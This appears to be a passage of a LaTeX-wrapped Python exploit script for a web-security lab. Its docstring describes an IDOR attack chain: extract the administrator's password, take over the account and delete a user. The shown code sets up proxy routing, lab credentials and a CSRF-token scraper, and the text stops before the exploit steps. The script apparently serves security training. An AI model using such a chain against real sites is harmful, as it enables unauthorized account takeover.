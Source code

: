 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{verbatim}[language=python,caption={Full multi-phase exploitation script}]
#!/usr/bin/env python3
"""
User ID Controlled by Parameter with Password Disclosure - Exploit Script

Attack Chain:
1. Login as low-privilege user (wiener:peter)
2. Exploit IDOR to access administrator's account page
3. Extract administrator's password from HTML
4. Login as administrator
5. Delete target user (carlos)

Usage: python3 exploit.py <BASE_URL> [--target <username>]
Example: python3 exploit.py https://lab.example.com --target carlos
"""

import sys
import re
import argparse
import requests
import urllib3
from bs4 import BeautifulSoup
from typing import Optional, Tuple

# Disable SSL warnings for lab environments
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy configuration
PROXIES = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}

# Default credentials
DEFAULT_USERNAME = "wiener"
DEFAULT_PASSWORD = "peter"

def banner():
    """Print script banner."""
    print("""
+------------------------------------------------------------------+
| User ID Param + Password Disclosure -- Chain Summary               |
| IDOR -> Password extract -> Account takeover -> Privileged action |
| For authorized security testing only                              |
+------------------------------------------------------------------+
    """)

def get_csrf_token(session: requests.Session, url: str) -> Optional[str]:
    """Extract CSRF token from a page."""
    try:
        response = session.get(url, verify=False, proxies=PROXIES, timeout=15)
        soup = BeautifulSoup(response.text, 'html.parser')

        csrf_input = soup.find('input', {'name': 'csrf'})
        if csrf_input and csrf_input.get('value'):
            return csrf_input['value']

        # Fallback to regex
        match = re.search(r'name="csrf"\s+value="([^"]+)"', response.text)
        if match:
            return match.group(1)

        return None
    except requests.RequestException as e:
        print(f"[-] Error fetching CSRF token: {e}")
        return None


\end{verbatim}
\end{document}
